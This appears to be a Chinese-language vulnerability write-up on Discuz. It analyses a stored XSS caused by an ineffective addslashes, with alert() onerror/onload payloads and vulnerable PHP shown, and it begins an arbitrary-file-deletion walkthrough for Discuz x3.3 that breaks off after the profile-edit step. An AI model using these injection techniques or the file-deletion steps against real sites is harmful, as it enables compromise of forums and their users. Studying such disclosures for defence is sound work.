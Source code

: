 在`discuz\source\function\function_discuzcode.php`大约684行处，返回了这样一段js

```php
$width = addslashes($width);
$height = addslashes($height);
$flv = addslashes($flv);
$iframe = addslashes($iframe);
$randomid = 'flv_'.random(3);
$enablemobile = $iframe ? 'mobileplayer() ? "<iframe height=\''.$height.'\' width=\''.$width.'\' src=\''.$iframe.'\' frameborder=0 allowfullscreen></iframe>" : ' : '';
return '<span id="'.$randomid.'"></span><script type="text/javascript" reload="1">$(\''.$randomid.'\').innerHTML=('.$enablemobile.'AC_FL_RunContent(\'width\', \''.$width.'\', \'height\', \''.$height.'\', \'allowNetworking\', \'internal\', \'allowScriptAccess\', \'never\', \'src\', \''.$flv.'\', \'quality\', \'high\', \'bgcolor\', \'#ffffff\', \'wmode\', \'transparent\', \'allowfullscreen\', \'true\'));</script>';
```

在帖子的html页面中能够看到生成的这段代码

```html
<span id="flv_hiT"></span><script type="text/javascript" reload="1">$('flv_hiT').innerHTML=(mobileplayer() ? "<iframe height='300' width='200' src='http://www.tudou.com/programs/view/html5embed.action?code=a\\\' onload=alert(1) onerror=alert(1)' frameborder=0 allowfullscreen></iframe>" : AC_FL_RunContent('width', '200', 'height', '300', 'allowNetworking', 'internal', 'allowScriptAccess', 'never', 'src', 'http://www.tudou.com/v/a\\\' onload=alert(1) onerror=alert(1)', 'quality', 'high', 'bgcolor', '#ffffff', 'wmode', 'transparent', 'allowfullscreen', 'true'));</script></td></tr></table>

```

只有在手机端的时候，才会加载iframe标签

可以看到虽然加了`\`转义符，但是其实并没有不会影响单引号的闭合

因为如下的代码都是可以引起弹窗的

```html
<img src="x \" onerror=alert(1)>
<img src='x \' onerror=alert(2)>
```

因而做了无用的`addslashes`，并没有起到作用，引发了xss

## 

# Discuz 任意文件删除

测试环境 Discuz x3.3 utf-8

## 漏洞利用

先登录到个人中心，修改资料处

```
http://localhost/discuz/home.php?mod=spacecp&ac=profile
```

post提交参数，修改出生地（formhash可以在html代码中找到
